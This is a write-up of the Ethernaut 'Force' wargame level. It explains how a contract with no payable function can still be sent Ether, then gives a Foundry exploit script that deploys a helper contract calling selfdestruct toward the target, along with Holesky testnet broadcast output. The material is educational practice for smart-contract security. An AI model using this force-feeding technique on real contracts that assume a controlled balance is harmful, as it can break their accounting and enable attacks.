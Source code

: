 ```yaml
---
layout: post
title: "[Ethernaut] Force"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. make the balance of the contract greater than zero

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

[Solidity 0.8.30 Documentation - sending and receiving ether](https://docs.soliditylang.org/en/latest/security-considerations.html#sending-and-receiving-ether)

<aside>
💡

Neither contracts nor “external accounts” are currently able to prevent someone from sending them Ether. Contracts can react on and reject a regular transfer, but there are ways to move Ether without creating a message call. One way is to simply “mine to” the contract address and the second way is using `selfdestruct(x)`.

</aside>

[Solidity 0.8.30 Documentation - deactivate and self destruct](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#deactivate-and-self-destruct)

The `selfdestruct()` function removes code from blockchain.

It move Ether stored in the contract to a specified address without creating a message call.

Even if a contract’s code does not contain a call to selfdestruct, it can still perform that operation using delegatecall or callcode.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Force.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    constructor(address payable force_) payable {
        selfdestruct(force_);
    }
}

contract ForceSol is Script {

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        new Ex{value: 1 wei}(payable(0xD38Cdc747b3Fdc5B553ec592a89b92db3015c2e6));

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/ForceSol.sol --broadcast --tc ForceSol
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.001062799 gwei

Estimated total gas used for script: 83584

Estimated amount required: 0.000000088832991616 ETH

==========================

##### holesky
✅  [Success] Hash: 0xfe8f4a467eb59cc75d1969cbcb0338d23b568d91028e387bba6bcebb5c605526
Contract Address: 0xfF2baB3F127feb02B77A4dBd869b25f63d442b79
Block: 3677667
Paid: 0.000000068333210136 ETH (64296 gas * 0.001062791 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000068333210136 ETH (64296 gas * avg 0.001062791 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image getbalance]({{site.url}}/images/2025-04-19-Force/getbalance.png)

![Image complete]({{site.url}}/images/2025-04-19-Force/complete.png)
